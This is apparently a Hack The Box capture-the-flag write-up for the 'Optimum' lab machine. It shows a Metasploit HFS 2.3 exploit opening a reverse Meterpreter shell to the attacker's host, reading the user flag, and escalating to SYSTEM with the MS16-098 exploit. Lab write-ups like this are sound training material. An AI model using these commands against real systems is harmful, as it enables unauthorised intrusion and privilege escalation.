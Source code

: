 ```yaml
---
layout: post
title:  "Optimum"
category: writeup
author: mrtn
---
```


Todays box is `Optimum`, also known as `10.10.10.8`


The initial scan with nmap was pretty small - looks like the only attack surface visible is only port 80 on tcp.


Checking that out with the browser reveals the interface of [HFS](https://www.rejetto.com/hfs/) - a quick `searchsploit` reveals several vulnerabilities for the version 2.3, which is running on that box. Luckily, there is a `metasploit` module for that CVE. 

```bash
msfconsole
use windows/http/rejetto_hfs_exec
set rhost optimum.htb
set srvhost 10.10.14.46
set srvport 1337
run
[*] Started reverse TCP handler on 10.10.14.46:4444
[*] Using URL: http://10.10.14.46:8080/pwNwDKXp
[*] Server started.
[*] Sending a malicious request to /
[*] Payload request received: /pwNwDKXp
[*] Sending stage (179779 bytes) to 10.10.10.8
[*] Meterpreter session 1 opened (10.10.14.46:4444 -> 10.10.10.8:49162) at 2019-07-01 21:42:02 +0200
[!] Tried to delete %TEMP%\bOfDSNNtoh.vbs, unknown result
[*] Server stopped.
shell
meterpreter > shell
Process 984 created.
Channel 2 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\kostas\Desktop>whoami
whoami
optimum\kostas

C:\Users\kostas\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is D0BC-0196

 Directory of C:\Users\kostas\Desktop

08/07/2019  07:34 ��    <DIR>          .
08/07/2019  07:34 ��    <DIR>          ..
08/07/2019  07:34 ��    <DIR>          %TEMP%
18/03/2017  03:11 ��           760.320 hfs.exe
18/03/2017  03:13 ��                32 user.txt.txt
               2 File(s)        760.352 bytes
               3 Dir(s)  31.881.613.312 bytes free

C:\Users\kostas\Desktop>type user.txt.txt
type user.txt.txt
d0[...]f73
```

So we have the user flag and know the username. 

Let's get some `sysinfo` and feed that into the [windows-exploit-suggester](https://github.com/GDSSecurity/Windows-Exploit-Suggester)

```bash
[E] MS16-032: Security Update for Secondary Logon to Address Elevation of Privile (3143141) - Important
[*]   https://www.exploit-db.com/exploits/40107/ -- MS16-032 Secondary Logon Handle Privilege Escalation, MSF
[*]   https://www.exploit-db.com/exploits/39574/ -- Microsoft Windows 8.1/10 - Secondary Logon Standard Handles Missing Sanitization Privilege Escalation (MS16-032), PoC
[*]   https://www.exploit-db.com/exploits/39719/ -- Microsoft Windows 7-10 & Server 2008-2012 (x32/x64) - Local Privilege Escalation (MS16-032) (PowerShell), PoC
[*]   https://www.exploit-db.com/exploits/39809/ -- Microsoft Windows 7-10 & Server 2008-2012 (x32/x64) - Local Privilege Escalation (MS16-032) (C#)
```

After checking out some others, _MS16-032_ looks more promising.

Check out the corresponding `metasploit` module for this. Also, take care, we are dealing with an `x64` installation! 

For this exploit to work, you need to set the initital meterpreter payload to `windows/x64/meterpreter/reverse_tcp` as well as the `TARGET` to `1` - which is also `x64`. 


For me it didn't work - the exploit went through, reported success but no shell spawned - so back to the list from `windows-exploit-suggester`...

After some unsuccesful attempts, _MS16-098_ seems to tick all the boxes.

```bash
[E] MS16-098: Security Update for Windows Kernel-Mode Drivers (3178466) - Important
[*]   https://www.exploit-db.com/exploits/41020/ -- Microsoft Windows 8.1 (x64) - RGNOBJ Integer Overflow (MS16-098)
[*]   https://www.exploit-db.com/exploits/37098/ -- Microsoft Windows - Local Privilege Escalation (MS15-010), PoC
```

Get the binary.

Upload the binary to the target. 

```bash
cmd>41020.exe
cmd>whoami
SYSTEM
```

pwned

```bash
type root.txt
51[...]]ed
```


## References

[Optimum@htb](https://www.hackthebox.eu/home/machines/profile/6)
[windows-exploit-suggester](https://github.com/GDSSecurity/Windows-Exploit-Suggester)

